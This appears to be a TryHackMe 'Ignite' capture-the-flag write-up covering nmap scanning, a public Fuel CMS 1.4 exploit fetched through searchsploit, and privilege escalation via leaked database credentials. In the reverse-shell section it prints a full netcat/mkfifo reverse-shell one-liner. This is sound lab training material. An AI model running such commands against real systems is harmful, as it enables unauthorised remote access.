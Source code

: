 # TryHackMe: Ignite CTF Writeup

## Introduction

This CTF room is about Ignite where new start up is having issues with their web server and they want us to root it.  Its very straightforward and challenge is rated easy. I will cover on how I did the enumeration, exploitation and privilege escalation. Lets get started.


## Scanning with Nmap

Lets get scanning with nmap to find which ports are open.

Syntax - nmap -sV -sC -p- -T4 IP

![Nmap_result](assets/Nmap_scan.png)

Theres only 1 port open and thats port 80. There are some mentions such as robots.txt with disallowed entry, /fuel directory and title page for welcome to fuel CMS.


## Web Enumeration

Navigating to the website we get the welcome page for Fuel CMS along with admin credentials for logging in. Maybe we will find something useful.

![FuelCMS_Website](assets/fuel_cms.png)
![Admin_creds](assets/admin_login.png)
![Admin_account](assets/Admin_account.png)
After checking the account thoroughly, there really wasn't anything important or just anything useful, this leads to nowhere.

However what we can do is since there is version number of CMS, this maybe a clue to find a possible exploit for it. We can use searchsploit to do just that.


## Exploitation


syntax- searchsploit software 1.4 

![Searchsploit](assets/Searchsploit.png)

and yes it is there. Lets try out the exploit and see if it works. 

Lets download it first

syntax- searchsploit -m exploit/path

![Searchsploit_download](assets/exploit_download.png)

Now that we have downloaded it, its time to execute the exploit and see if we get the access.

syntax- python3 exploit.py -u http://IP

After exploiting we have now got the access.

![Target connection](assets/target_connected.png)

## Reverse Shell 

However its difficult to navigate here since i can't spawn the shell, what i can do is use reverse shell and create a listener in my local machine.

Syntax- rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP port >/tmp/f

and now we can spawn the shell and start navigating to find user.txt which is the first task question.

Syntax: python3 -c 'import pty; pty.spawn("/bin/bash")'

![Netcat_Listener](assets/netcat_listener.png)

we can find the user flag in home directory, Which answers the first task.

![User_flag](assets/user_flag.png)

Now we need to answer last task and that is root.txt. 

## Privilege Escalation

I have looked around the files but nothing useful so far, it became very time consuming process.

However i was wondering earlier, after getting connection through reverse shell, it was already in specific directory that relates with what was mentioned in the website. That was the first clue and another thing is the fuel directory which is mentioned in the webpage regarding credentials such as username and password in .php.

![webpage](assets/fuel_directory.png)

So i went to the directory that had the .php we need to access to find out if there are any credentials and will it be useful for escalation.

and there is indeed the credentials with root mentioned, however now its time to confirm if we can get the access to root.

![db_creds](assets/db_credentials.png)

Syntax- su user

and yes we did, which means now we can find the root.txt, answering the last task.

![root_flag](assets/root_flag.png)

## Conclusion


This CTF was good test on web enumeration, searchsploit for relevant exploit to gain access to target and identifying how to escalate privileges even without direct ssh access. This was fun CTF and very straightforward even though the process can be exhausting when navigating but more experience through error helps in narrowing down to what can be found and less time consuming process for the next time.
